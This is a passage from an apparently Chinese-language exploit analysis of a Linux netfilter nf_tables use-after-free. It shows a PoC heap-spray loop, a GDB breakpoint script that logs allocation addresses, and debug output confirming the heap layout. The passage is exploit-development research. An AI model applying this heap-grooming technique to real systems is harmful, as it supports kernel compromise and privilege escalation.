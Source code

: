 poc 中堆喷逻辑如下：

```c
    for (int spray = - 0x60; spray < 0x21; ++ spray) {
        if (spray == 0) {
            pwn_create_lookup_set_elem(batch, seq++, pwn_lookup_set, uaf_set_key, sizeof(uaf_set_key));
        }
        else {
            pwn_create_log_rule(batch, seq++, pwn_log_chain, log_prefix);
        }
    }
```

> 就是在 elem 前后喷几十个 rule 确保 elem 被 rule 包围

在分配 rule 和 elem 的位置下断点打印分配的地址可以确认堆喷情况

```c
def newrule_cb(bp):
    rule = get_symbol_address("rule")
    print("[new_rule] 0x{:08x}".format(rule))
    return False

newrule_bp = WrapperBp("net/netfilter/nf_tables_api.c:3526", cb=newrule_cb)

def add_set_elem_cb(bp):
    elem = get_symbol_address("elem.priv")
    print("[add_set_elem] 0x{:08x}".format(elem))
    return False

add_set_elem_bp = WrapperBp("net/netfilter/nf_tables_api.c:6154", cb=add_set_elem_cb)
```

部分日志如下

log rule 和 pwn\_set 的 elem 的堆喷布局看起来用的大小应该是 0x80

```bash
[new_rule] 0xffff88810dd7a300
[new_rule] 0xffff88810dd7ad00
[new_rule] 0xffff88810dd7ad80
[add_set_elem] 0xffff88810dd7a980
[new_rule] 0xffff88810dd7a280
[new_rule] 0xffff88810dd7a800
[new_rule] 0xffff88810dd7ab00
[new_rule] 0xffff88810dd7a200
[new_rule] 0xffff88810dd7a480
[new_rule] 0xffff88810dd7a380
[new_rule] 0xffff88810dd7a500
[new_rule] 0xffff88810dd7af00
[new_rule] 0xffff88810dd7a580
[new_rule] 0xffff88810dd7ae80
[new_rule] 0xffff88810dd7a900   ---> elem 前面的 rule
[new_rule] 0xffff88810dd7aa80
[new_rule] 0xffff88810dd7aa00   ---> elem 后面的 rule
[new_rule] 0xffff88810dd7ab80
```

